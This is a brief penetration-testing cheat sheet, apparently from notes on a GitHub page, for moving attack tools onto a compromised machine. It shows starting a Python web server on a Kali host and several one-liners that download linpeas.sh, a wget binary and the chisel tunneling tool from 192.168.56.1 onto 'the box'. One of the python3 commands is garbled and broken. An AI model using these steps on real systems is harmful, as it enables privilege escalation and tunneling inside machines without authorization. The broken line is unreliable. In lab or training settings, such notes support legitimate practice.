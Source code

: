 `on kali`

```bash
python2.7 -m SimpleHTTPServer 80
```

`on the box`


```bash
python3 -c "import urllib.request; urllib.request.url//192.168.56.1:80/linpeas.sh', 'linpeas.sh')"
```
## python3
```bash
python3 -c "import urllib.request; urllib.request.urlretrieve('http://192.168.56.1//wget', 'wget')"
```
## python2.7 
```bash
python2.7 -c "import urllib; urllib.urlretrieve('http://192.168.56.1/chisel-amd64', 'chisel')"
```
